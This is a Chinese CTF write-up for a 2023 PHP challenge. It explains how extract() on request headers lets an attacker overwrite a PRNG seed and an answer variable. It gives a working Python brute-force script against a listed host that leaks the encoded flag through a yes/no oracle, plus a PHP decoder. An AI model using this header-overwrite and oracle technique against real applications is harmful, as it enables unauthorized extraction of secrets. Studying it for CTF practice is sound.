 ```yaml
---
tags:
  - TZC
  - 简单
  - 覆写
  - 伪随机
---
```


# \[台州学院 2023\] ez_php

## 前置工作

打开靶机，看到如下源码（进行了些许美化）

```php
<?php
error_reporting(0);
$Seed = str_split(uniqid(), 10)[1];
extract(getallheaders());
mt_srand($Seed);
$flag = str_split(file_get_contents("/flag"));
$result = "";
foreach ($flag as $value) {
    $result = $result.chr(ord($value) + mt_rand(1, 2));
}
if (isset($Answer)) {
    if ($Answer == substr($result, 0, strlen($Answer))){
        echo "wow~";
    } else {
        echo "no~";
    }
} else {
    highlight_file(__FILE__);
    echo "no~";
}
```

## `mt_rand()` 伪随机

细品一下代码，上网搜一搜就能发现，`mt_rand(1, 2)` 是个伪随机的函数，从 `(1, 2)` 中选一个作为值，而跟他有关联的 `mt_srand($Seed)` 是将 `$Seed` 作为随机生成器的种子。

换句话说，如果我们能掌握住一个固定的种子，那么这个随机数就跟没有一样（因为是伪随机，经过处理之后照样可以用相同的 `$Seed` 绕回来）

题目刚开始有一句 `$Seed = str_split(uniqid(), 10)[1];`，很明显，生成了一个我不知道是什么东西的种子，但这无妨，我们可以覆写他

## `extract()` 覆写

`extract(getallheaders())` 即将 Http 请求 Headers 中的所有键值对转成程序内的可调用变量，就比如说我在 Headers 中写一个 `Temp=1`，那么此 PHP 程序中的后文就可以调用到变量 `$Temp`，并且 `echo $Temp;` 会输出 `1`

理论如此，那么直接实践，前面定义了一个 `$Seed`，我不管，直接 Headers 中再写一个 `Seed=2`，那么我的种子就是固定的数字 `2` 了

再阅读一下代码，发现下文有一个变量 `$Answer`，这个变量上文没有被定义过，所以我们就用同样的方法，在 Headers 中写一个 `Answer=?`（不是真的 `?`，这代表暂时还不知道是什么），看到下面的判断语句

```php
$Answer == substr($result, 0, strlen($Answer))
```

这说明当我们输入 n 个字符，他就会将我们这 n 个字符与加密后的 Flag 的前 n 位进行比较，若比较成功，则返回 `wow~`，不然就是 `no~`，那我们可以用 Python 写出一个爆破脚本

## 爆破

```python
import requests

ascii_chars = []

# 生成可打印的所有 ASCII 字符
for i in range(33, 127):
    ascii_chars.append(chr(i))

url = "http://120.26.101.154:28094/"
answer = ""

# 每当我成功试出一个符合的字符，就将其追加到 answer 中，直到报错
i = 0
while i < 95:
    response = requests.get(url, headers={
        "Seed": "2", # 这里的 Seed 就是在 Headers 中去覆写的 Seed
        "Answer": answer + ascii_chars[i]
    })
    if response.text == "wow~":
        answer += ascii_chars[i]
        print("current: " + answer)
        i = 0
    else:
        i += 1
print(answer)

```

你应该可以看到类似于这样的输出

```
current: g
current: gn
current: gnc
current: gnch
current: gnch|
...（省略很多很多）
current: gnch|c5777224/d3c2.51g9/ce92/7668cc:9f3b4
current: gnch|c5777224/d3c2.51g9/ce92/7668cc:9f3b4~
```

得出加密后的 Flag 为 `gnch|c5777224/d3c2.51g9/ce92/7668cc:9f3b4~`，此时距离做完只剩一步了，就是把他还原出来，我们可以用 PHP 脚本编写还原代码

## 还原

```php
<?php
$Seed = 2;
mt_srand($Seed);
$flag = str_split("gnch|c5777224/d3c2.51g9/ce92/7668cc:9f3b4~");
$result = "";
foreach ($flag as $value){
    $result = $result.chr(ord($value)-mt_rand(1,2));
}
echo $result;
```

运行后得出最终结果 `flag{a4565102-b1a0-40f7-ad81-5457ab97d1a3}`